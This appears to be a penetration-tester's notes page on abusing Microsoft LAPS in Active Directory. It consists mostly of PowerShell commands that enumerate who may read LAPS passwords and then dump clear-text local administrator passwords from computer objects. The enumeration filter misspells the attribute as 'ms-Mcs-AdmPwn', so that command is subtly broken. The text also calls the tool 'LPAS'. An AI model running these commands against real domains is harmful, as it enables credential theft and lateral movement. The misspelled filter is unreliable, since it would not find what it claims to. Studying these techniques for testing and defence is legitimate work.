 # LAPS

## Theory

LPAS (Local Administrator Password Solution) provides centralized storage of local users in AD with periodic randomizing

Is stored in clear text but the transmission is encrypted (Kerberos).

## Abuse

### Enumeration

If LAPS is enabled a library AdmPwd.dll can be found in the C:\Program Files\LAPS\CSE\ directory. To find user who can read the passwords in clear text machines in OUs using powerview:

{% code overflow="wrap" %}
```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwn') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/immagine (5).png" alt=""><figcaption></figcaption></figure>

To find OU where LAPS is in user import the LAPS module (can be copied across machines):

{% code overflow="wrap" %}
```powershell
Import-Module ./AdmPwd.PS.psd1
Find-AdmPwdExtendedRights -Identity OUDistinguishedName
```
{% endcode %}

### Exploitation

With a user that has the Rights use the following command to read the clear-text passwords:

#### Powerview

{% code overflow="wrap" %}
```powershell
Get-DomainObject -Identity <targetmachine$> | select -ExpandProperty ms-mcs-admpwd
```
{% endcode %}

#### AD-Module

{% code overflow="wrap" %}
```powershell
Get-ADComputer -Identity us-mailmgmt -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
```
{% endcode %}

#### LAPS Module

```powershell
Get-AdmPwdPassword -ComputerName <$targetmachine>
```

<figure><img src="../../../.gitbook/assets/immagine (1).png" alt=""><figcaption></figcaption></figure>
